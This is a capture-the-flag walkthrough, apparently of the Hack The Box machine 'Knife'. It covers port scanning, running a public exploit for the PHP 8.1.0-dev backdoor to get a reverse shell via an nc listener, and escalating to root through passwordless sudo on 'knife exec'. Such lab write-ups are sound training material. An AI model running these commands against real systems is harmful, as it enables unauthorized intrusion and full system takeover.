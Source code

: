 ## Default Information
IP address : 10.10.10.242\
Operating system : Linux

## Discovery
### Nmap
Lets start with running a network scan on the IP address using Nmap to identify the open ports and the services running on the open ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : Run default nmap scripts
* A : identify the OS behind each ports
* -p- : scan all ports
```code 
sudo nmap -sC -sV -A -p- -T4 10.10.10.242 -vv
```
From the output of Nmap, we are able to know the following informtion about the ports:
| Port Number | Service | Version |
|-----|------------------|----------------------|
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) |
| 80	| HTTP | Apache httpd 2.4.41 (Ubuntu) |

### Nikto
Visting the website does not yield any promising results as there are only 2 urls that can be found --> ```http://10.10.10.242``` and ```http://10.10.10.242/robots.txt```\
Next, we will scan the website with ```Nikto``` to uncover potential vulnerabilities in the website and the web server used. The following interesting information were uncovered:
```code
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
```

## Exploit
### CVE-2020-1927
CVE 2020-1927 was found to be related to ```Apache/2.4.41```, but it was found not to be exploitable on the website.\
However, we were able to find a POC [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) for ```PHP/8.1.0-dev```
```code
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
mv backdoor_php_8.1.0-dev.py exploit_rce.py 
mv revshell_php_8.1.0-dev.py exploit_revshell.py 
```

### Obtaining reverse shell
Now, we have to set up a listener on the attacker's machine
```code
nc -nlvp 3000
```
Afterwards, we will execute the exploit script on the victim's macchine to obtain a reverse shell on the attacker's machine
```code
python3 exploit_revshell.py http://10.10.10.242 10.10.16.250 3000 
```
We will now have to stabilize the shell and obtain the user flag.
```code
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.242] 48826
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ 
```

### Obtaining user flag

Now, all we have to do is to navigate to ```/home/james``` to obtain the user flag.
```
james@knife:/$ cd home
cd home
james@knife:/home$ ls
ls
james
james@knife:/home$ cd james
cd james
james@knife:~$ ls
ls
user.txt
james@knife:~$ cat user.txt
cat user.txt
```

### Spawning a root shell
However, we have not discovered the root flag yet! However, we noticed something interesting when we run ```sudo -l```. The command ```/usr/bin/kniife``` allows any user to execute with root privileges, without the need for any password.
```code
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Searching up the documentation for ```knife```, we realise that there is a [knife exec](https://docs.chef.io/workstation/knife_exec/) command that allows us to execute scripts using ```knife```, which can allow us to obtain a root shell
```code
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
```
We will then stabilize the root shell and obtain the system flag.
```code
james@knife:~$ sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
# python3 -c 'import pty; pty.spawn("/bin/bash")'   
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@knife:/home/james#
```

### Obtaining a root flag

All that we have to do is to navigate to ```/root``` to obtain the root flag.
```
root@knife:/home/james# cd /root
cd /root
root@knife:~# ls
ls
delete.sh  root.txt  snap
root@knife:~# cat root.txt
cat root.txt
```
